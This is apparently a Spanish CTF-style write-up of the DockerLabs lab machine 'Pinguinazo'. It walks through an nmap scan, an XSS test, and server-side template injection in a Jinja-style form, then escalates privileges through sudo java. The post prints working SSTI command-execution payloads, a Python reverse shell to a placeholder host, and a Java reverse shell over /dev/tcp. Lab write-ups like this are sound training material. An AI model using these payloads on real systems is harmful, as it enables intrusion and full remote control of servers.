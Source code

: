 ```yaml
---
layout: post
title: Maquina Pinguinazo
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/pinguinazo-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  SSTI
  -  NetCat
  -  Escalado de privilegios
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Pinguinazo
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Facil`{:.success}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso pinguinazo.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh pinguinazo.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**pinguinazo.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn 172.17.0.2 -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img4.png)

Vemos que tiene abierto el puerto **5000 (upnp?)**.

#### **Explotación**
Lo primero que observamos al acceder por el puerto 5000 es un formulario de registro.
![Image 5](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img5.png)

Si lo rellenamos, vemos que nos muestra un saludo y el nombre que hemos introducido en el primer campo.
![Image 6](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img6.png)

Trataremos de averiguar si es vulnerable a ejecución de html injection.
![Image 7](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img7.png)

En el primer campo introducimos lo siguiente:
```html
<script>alert("hackeado")</script>
```
Al enviarlo comprobamos que efectivamente es vulnerable.
![Image 8](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img8.png)

Ahora comprobaremos si es vulnerable a SSTI (Server Side Template Injection), en el github de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread) encontramos exploit para este tipo de vulnerabilidad.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img9.png)

Nos muestra el siguiente mensaje:
![Image 10](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img10.png)

Ahora intentaremos ponernos en escucha por el puerto 443 con netcat, y mediante un payload modificado del github de **PayloadsAllTheThings**, trataremos de ejecutar una reverse shell

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_S REAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```
![Image 11](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img11.png)

Recibimos la conexión y vemos que somos es usuario pinguinazo :penguin:

![Image 12](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img12.png)

Ahora trataremos de realizar una escalada de privilegios para poder ser root.
Para ello, como siempre, lo primero que hacemos es revisar que comando puede ejecutar el usuario actual como sudo.
![Image 13](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img13.png)

Vemos que podemos ejecutar java con privilegios de root, por tanto, podemos crear un fichero java con una revesrse shell ([https://www.revshells.com/](https://www.revshells.com/)) que podremos ejecutar como root.

```java
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/172.17.0.1/4444 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```
Nos ponemos en escucha con netcat, esta vez por el puerto 4444 y ejecutamos como sudo el fichero java que hemos creado.
```bash
sudo java rev_shell.java
```
![Image 14](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img14.png)

Y recibimos la reverse shell siendo el usuario root.

![Image 15](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img15.png)

:penguin::penguin: ¡¡¡¡Así que, maquina pinguineada!!!! :penguin::penguin:


#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 10](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img10.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
